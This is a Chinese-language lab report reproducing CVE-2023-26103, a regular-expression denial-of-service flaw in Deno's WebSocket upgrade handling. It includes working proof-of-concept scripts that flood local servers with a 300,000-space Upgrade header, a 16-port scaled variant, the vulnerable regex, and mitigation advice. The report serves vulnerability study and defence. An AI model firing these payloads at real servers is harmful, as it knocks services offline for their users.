

# 漏洞详情信息表

- 漏洞名称：Deno 安全漏洞
- CNNVD 编号：CNNVD-202302-2012
- CVE 编号：CVE-2023-26103
- 厂商：个人开发者
- 危害等级：中危
- 漏洞类型：拒绝服务攻击
- 收录时间：2023-02-25 00:00:00
- 更新时间：2023-03-08 00:00:00

Deno 是开源的一个简单、现代且安全的 JavaScript 和 TypeScript 运行环境。它使用 V8 并使用 Rust 构建。
Deno 1.31.0 之前版本存在安全漏洞，该漏洞源于容易受到正则表达式拒绝服务(ReDoS)攻击。

# 系统和软件环境配置详情信息表

- 操作系统：
  - Arch Linux (6.3.3-zen1-1-zen)
- 软件：
  - deno v1.30.3

# 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-26103` 创建新文件夹。
2. 使用 `wget https://github.com/denoland/deno/releases/download/v1.30.3/deno-x86_64-unknown-linux-gnu.zip` 下载含有缺陷的 deno 版本。
3. 使用 `unzip deno-x86_64-unknown-linux-gnu.zip` 解压可执行文件 `deno` 到当前目录。
4. 运行 `./deno --version` 查看当前版本。


# 漏洞测试或验证详细步骤

## 编写代码

按照官方教程提供的样例，编写一个简单的 WebSocket 服务器 `server.ts`。

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

const server = Deno.listen({ port: 8080 });

for await (const conn of server) {
  handle(conn);
}
```

上面这段代码会监听本地 `8080` 端口，并且提供 WebSocket 协议。

使用 `./deno run --allow-net server.ts` 可以成功启动我们的 WebSocket 服务器。

## 验证漏洞

`Deno.upgradeWebSocket` 中含有如下代码：

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

其中包含了一个带有缺陷的正则表达式，其匹配的复杂度最坏可以达到 $O(n^2)$。

要想利用这个缺陷，我们可以直接构造一个带有数百万个空格的 `Upgrade` HTTP 头的请求即可。

下面是用于攻击的代码，我们将其保存为 `evil.ts`。

```js
const evil = "X" + " ".repeat(300000) + "Y";

await fetch("http://localhost:8080/", {
  headers: {
    Upgrade: evil,
  },
});
```

上面这段代码发送了一个 HTTP 请求，其中 Upgrade 头的值是一个 `X` 和三十万个空格再加上一个 `Y`，足以使得目标正则表达式难以计算出结果。

我们使用 `./deno run --allow-net evil.ts` 发送请求，可以看到系统占用明显上升。


上图中可以明显看到有一个 CPU 达到 100% 占用。

## 更大规模测试

得益于 JavaScript 语言的单线程性，无论我们同时发起多少个请求，都只会有一个 CPU 资源被消耗。

因此我们尝试修改代码，使得一个服务器可以同时支持 16 个请求同时访问。

修改 `server.ts` 如下

```js
for (let i = 0; i < 16; ++i) {
  const worker = new Worker(new URL("./worker.ts", import.meta.url).href, {
    type: "module",
  });
  worker.postMessage({ port: 8080 + i });
}
```

接下来创建文件 `worker.ts` 如下

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

async function createServer(port: number) {
  const server = Deno.listen({ port });

  for await (const conn of server) {
    handle(conn);
  }
}

self.onmessage = (e) => {
  const { port } = e.data;
  createServer(port);
  console.log(`listen on http://localhost:${port}/`);
};
```

接着使用 `./deno run --allow-net --allow-read server.ts` 启动服务器，可以看到程序按顺序监听了 16 个端口。



接着修改 `evil.ts` 如下

```js
const evil = "X" + " ".repeat(300000) + "Y";

for (let i = 0; i < 16; ++i) {
  const port = 8080 + i;
  console.log(`sending request to :${port}`);
  fetch(`http://localhost:${port}/`, {
    headers: {
      Upgrade: evil,
    },
  });
}
```

使用 `./deno run --allow-net evil.ts`，可以看到主机占用立刻达到了 100%。


## 漏洞分析

造成漏洞的原因在于上文中提到的一句话

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

这句话中我们读取了 HTTP 头部中的 `Upgrade` 字段，并将其通过 `\s*,\s*` 正则表达式进行分割。

一般来说这句话对于正常的情况下不会出现任何问题，但是由于 `\s*` 是贪心地匹配所有可能的结果，因此如果我们构造了如上文中 `"X" + " ".repeat(300000) + "Y"` 的字符串，那么 `\s*,\s*` 会先贪心地从第一个空格开始匹配中间所有的空格，发现最后不是逗号并发生失配，接着回溯从第二个空格开始匹配接下来的所有空格，再次发现最后不是逗号并发生失配。如此这般，匹配的复杂度将会达到最差的 $O(n^2)$。

因此，我们通过构造的方式可以成功使得该正则表达式消耗大量的 CPU 运算，从而实现拒绝服务攻击。

# 漏洞危害分析

正则表达式拒绝服务攻击（ReDoS）是一种针对使用正则表达式的应用程序的漏洞攻击。攻击者可以通过构造恶意的输入数据，导致目标应用程序的正则表达式匹配操作耗费大量时间或资源，从而使目标应用程序无法正常运行或响应其他用户请求。

ReDoS 漏洞的危害主要体现在以下方面：

- 可能导致服务器崩溃： 当攻击者发送恶意的请求时，由于正则表达式的特性，会导致服务器不断地进行递归匹配操作，最终耗尽系统资源，导致服务器崩溃。
- 影响系统性能： 在攻击者成功发起攻击之后，正则表达式匹配操作可能会消耗大量的时间和系统资源，从而影响正常的系统性能，使得其他用户的请求被延迟或无法响应。
- 可能泄露敏感信息： 如果应用程序的正则表达式处理逻辑存在漏洞，攻击者有可能通过恶意构造的输入数据来获取敏感信息，从而对应用程序和其用户造成损失。

因此，在设计和使用正则表达式时，需要注意防范 ReDoS 漏洞，采取安全措施，如限制输入数据的大小和复杂度、使用正则表达式引擎的限制或超时机制等。

# 个人感悟

从开发者的角度，我认为在开发使用正则表达式的应用程序时，要注意防范 ReDoS 漏洞，遵循一些安全最佳实践，例如：

- 避免使用不必要的复杂正则表达式，尽可能简化匹配逻辑；
- 限制输入数据的大小和复杂度，防止攻击者利用过长或过于复杂的输入数据来进行攻击；
- 使用正则表达式引擎的限制或超时机制，以便在匹配操作消耗过多资源时能够及时停止。

同时，对于已存在的应用程序，定期对正则表达式相关部分进行安全审计，以及使用一些自动化工具检测 ReDoS 漏洞等，也是非常必要的。

从攻击者的角度看，正则表达式拒绝服务攻击（ReDoS）是一种相对容易实施且效果显著的攻击方式。攻击者可以利用目标应用程序的正则表达式逻辑漏洞，构造特殊的输入数据，使得正则表达式匹配操作长时间运行，甚至导致服务器崩溃。

因此，从攻击者的角度来看，除了利用已知的漏洞进行攻击外，还可以通过自行构造针对目标应用程序的恶意输入数据，进一步提高攻击成功的几率。另外，攻击者还可能利用多个恶意请求来实施分布式拒绝服务攻击（DDoS），以便更加有效地瘫痪目标系统。

总之，无论是从开发者还是攻击者的角度来看，正则表达式拒绝服务攻击（ReDoS）都是一项非常严重的安全威胁，需要采取措施进行防范和应对。
